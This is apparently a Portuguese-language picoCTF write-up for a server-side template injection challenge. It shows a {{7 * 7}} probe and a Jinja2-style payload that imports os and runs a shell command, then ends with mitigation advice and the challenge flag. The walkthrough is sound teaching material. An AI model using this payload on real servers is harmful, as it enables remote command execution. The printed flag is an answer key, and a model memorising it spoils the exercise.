 # 🦆 DuckWare - SSTI2

--- 

>	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/492
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI1 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.
-----
## 🧩 Desafio

<center><img src= 'SSTI1 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```
----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI1 fotos/test.png' ></center>


<center><img src= 'SSTI1 fotos/49.png' ></center>  

- Isso indica que o site está **interpretando a entrada como código dentro de um template engine**.**
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:
```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI1 fotos/flag.png' ></center>  

---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade tipo **SSTI** ao observar que entradas no formato `{{ ... }}` eram avaliadas pelo servidor (por exemplo, `{{7 * 7}}` resultou em `49`). A exploração dessa falha permitiu executar um comando no sistema remoto para ler o conteúdo do arquivo `flag`. Em ambientes reais, essa classe de vulnerabilidade pode possibilitar execução remota de código (RCE) e comprometer completamente o servidor — por isso deve ser corrigida com prioridade. Medidas mitigadoras incluem: não inserir diretamente dados do usuário em templates, escapar/validar entradas, e usar motores de template que não permitam avaliação de expressões arbitrárias.

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```